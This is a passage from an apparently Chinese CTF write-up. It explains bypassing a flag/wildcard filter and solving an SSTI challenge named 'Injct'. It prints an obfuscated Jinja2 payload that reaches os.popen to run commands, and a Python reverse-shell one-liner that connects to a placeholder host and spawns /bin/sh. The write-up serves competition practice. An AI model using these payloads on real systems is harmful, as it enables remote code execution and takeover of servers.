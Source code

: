 flag，通配符都被 ban 了，但还可以使用 [f] 进行绕过。

![](../../../../images/0649ba69235c298a5f4f13d5aeb28e10.png)



# Injct
老朋友了，一眼 SSTI，这里直接上 fenjing 跑。

```python
{%if(((((cycler.next|attr(('%c'%95)*2+'globals'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'builtins'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2))(('%c'%95)*2+'i''mport'+('%c'%95)*2))('os')|attr('p''open'))('\\163\\154\\145\\145\\160\\40\\63').read())%}{%endif%}


```

发现跑出来的是无回显，而且用不了，sleep 3 没反应，可能是因为 \\ 转义的问题，那就本地起一个服务，先把黑名单试出来，然后额外把 \\ 过滤掉。

跑出来还用不了，那就再换一个，再额外过滤一个加号。

再 sleep 3，发现有反应了，可以弹个 shell 试试。

由于是 python 环境，那就直接用 python 弹shell。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```
